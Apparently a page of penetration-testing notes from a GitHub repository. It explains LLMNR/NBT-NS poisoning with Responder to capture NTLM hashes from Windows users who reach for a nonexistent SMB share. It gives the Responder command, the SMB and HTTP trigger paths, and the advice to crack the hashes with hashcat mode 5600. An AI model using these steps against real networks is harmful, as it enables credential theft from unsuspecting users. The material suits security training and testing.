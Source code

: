 ### Responder
##### Attack 1: LLMNR/NBT-NS Poisoning through SMB
>Essentially when a system tries to access an SMB share, it sends a request to the DNS server which then resolves the share name to the respective IP address and the requesting system can access it. However, when the provided share name doesn’t exist, the system sends out an LLMNR query to the entire network. This way, if any user(IP address) has access to that share, it can reply and provide the communication to the requestor.

>Let’s see a share “wow” which doesn’t exist currently. If the share exists on the same network, wow can be accessed by typing “\\wow” in the address bar of file explorer. It doesn’t exist and so, Windows throws an error.

![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/9dbcb69f-3468-4a23-869f-57f49bcf4ec8)

>In comes responder. Now at this point, the requesting machine (windows 10) sends out an LLMNR request. We set up responder to poison that request. We need to tell responder the NIC on which we want to listen for LLMNR requests. Here, eth0. The default responder run shall start LLMNR and NBT-NS poisoning by default.

![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/715de23d-fb7c-4794-92ec-28663d168154)

>Now, when the victim tries to access shared drive “wow” he sees this! Wow has suddenly been made available and the poisoner asking for user credentials.

![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/7b811a5b-998f-4456-8972-589602aa57ea)

>Wow isn’t available at all! That’s just our poisoned answer in order to obtain NTLM hashes. Even if the user doesn’t input credentials, the hashes will be obtained.

![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/e7d16cb4-e0ce-4032-8aa4-2b03ccd661b0)

>We can now save these hashes in a file hash.txt and use hashcat to crack it. Please note that module number 5600 is the one suited to crack NTLMv2. If you obtained some other version of NTLM, please follow the hashcat modules here to specify the correct one.

##### Responder
```
sudo responder -I tun0 -fv
```
##### SMB 
```
\\IPv4 address\test || //ip/test
```
##### HTTP
```
http://ip/
```
